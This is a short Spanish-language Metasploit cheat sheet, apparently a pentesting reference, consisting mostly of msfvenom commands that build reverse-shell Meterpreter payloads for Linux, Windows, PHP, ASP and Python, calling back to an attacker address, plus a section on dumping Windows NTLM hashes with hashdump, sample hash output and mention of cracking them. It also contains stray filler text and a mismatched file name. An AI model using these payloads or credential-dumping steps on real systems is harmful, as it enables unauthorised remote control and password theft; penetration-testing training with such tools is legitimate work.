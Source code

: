 # Cheat Sheet Metasploit
Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en tests de penetración "Pentesting" y el desarrollo de firmas para sistemas de detección de intrusos.

### Cargas Útiles
Según la configuración del sistema de destino (sistema operativo, servidor web instalado, instalador intérprete, etc.), msfvenom se puede usar para crear cargas útiles en casi todos los formatos. A continuación hay algunos ejemplos que usará a menudo:
En todos estos ejemplos, LHOST será la dirección IP de su máquina atacante y LPORT será el puerto en el que escuchará su controlador.

LA

hola

**Linux Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
```
chmod +x shell.elf
```
**Windows Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
**PHP Shell**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
**ASP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
**Python Shell**
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

### Dump Password Windows
Las contraseñas de Windows 10 almacenadas como hashes NTLM se pueden volcar y filtrar al sistema de un atacante en segundos. Los hashes se pueden forzar bruscamente y descifrar muy fácilmente para revelar las contraseñas en texto sin formato utilizando una combinación de herramientas, incluidas Mimikatz, ProcDump, John the Ripper y Hashcat.
**Dump Hash**
```
hashdump
```
```
Administrator:500:CEEB0FA9F240C200417EAF40CFAC29C3:D280553F0103F2E643406517296E7582:::
User1:1011:7584248B8D2C9F9EAAD3B435B51404EE:186CB09181E2C2ECAAC768C47C729904:::
User2:1012:AC5BA6A944526699AAD3B435B51404EE:F07A9DFFFC2C5C7F9D9EBC83FD69D68E:::
User3:1013:E7EED3F5C2C85B88AAD3B435B51404EE:6AA15B3D14492D3FA4AA7C5E9CDC0E6A:::

1 Campo: nombre de usuario (Administrador, Usuario1, etc.)
2 Campo: Identificación Relativa (RID): últimos 3-4 dígitos del Identificador de Seguridad (SID),que son únicos para cada usuario
3 Campo: hash LM
4 Campo: hash NTLM
```
